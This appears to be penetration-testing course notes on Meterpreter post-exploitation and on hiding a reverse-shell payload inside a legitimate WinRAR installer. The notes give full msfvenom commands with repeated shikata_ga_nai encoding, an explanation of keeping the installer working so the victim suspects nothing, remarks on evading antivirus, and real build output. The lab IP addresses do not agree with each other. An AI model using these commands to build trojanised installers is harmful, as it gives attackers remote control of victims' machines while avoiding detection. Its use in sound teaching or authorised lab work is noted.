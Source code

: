 It'll migrate the process into another one.

```
meterpreter > run post/windows/manage/migrate
```

We have successfully been able to migrate our process.

```
meterpreter > sysinfo
meterpreter > ls
```

`-k`: maintain the functionality of the portable executable that you're injecting your payload into. 

What this means is that if we inject our Meterpreter payload into the WinRAR setup file, what will happen is when we transfer that executable onto the target system and then the target clicks on it, it will launch up the WinRAR setup or installer, so it's going to maintain the original functionality of the portable executable. And it's then going to execute the meterpreter payload and consequently provide us with a meterpreter session. 

However, this will not work for most portable executables out there.

And in the case of WinRAR, let's test and see whether this will work.

`-k`: Keep the original functionality of the WinRAR setup file.

We should get an error because this particular portable executable may not provide us with the ability to inject the payload, and furthermore, retain the original functionality.

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=1234 -e x86/shikata_ga_nai -i 10 -f exe -k -x ~/Downloads/wrar602.exe > ~/Desktop/Windows_Payloads/winrar-new.exe
```

This will require a lot of testing, and you can try it out with various portable executables or setup files and see which ones you have luck with.

This technique is really not used anymore, primarily because of the fact that antivirus solutions have become much more advanced and their signature database is quite comprehensive in regards to the ability to detect payloads, especially payloads generated by msfvenom. However this technique will help you in furthermore modifying or changing the actual signature, because you are now injecting the shellcode into a legitimate executable. So you can test this with other executables.

# Home Lab
Kali: 192.168.248.150

Windows 7 SP1: 192.168.248.150

```
┌──(root㉿kali)-[~]
└─# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.248.148 LPORT=1234 -e x86/shikata_ga_nai -i 10 -f exe -x /root/Downloads/winrar-x32-611.exe > /root/payloads/Windows_Payloads/winrar.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 10 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai succeeded with size 408 (iteration=1)
x86/shikata_ga_nai succeeded with size 435 (iteration=2)
x86/shikata_ga_nai succeeded with size 462 (iteration=3)
x86/shikata_ga_nai succeeded with size 489 (iteration=4)
x86/shikata_ga_nai succeeded with size 516 (iteration=5)
x86/shikata_ga_nai succeeded with size 543 (iteration=6)
x86/shikata_ga_nai succeeded with size 570 (iteration=7)
x86/shikata_ga_nai succeeded with size 597 (iteration=8)
x86/shikata_ga_nai succeeded with size 624 (iteration=9)
x86/shikata_ga_nai chosen with final size 624
Payload size: 624 bytes
```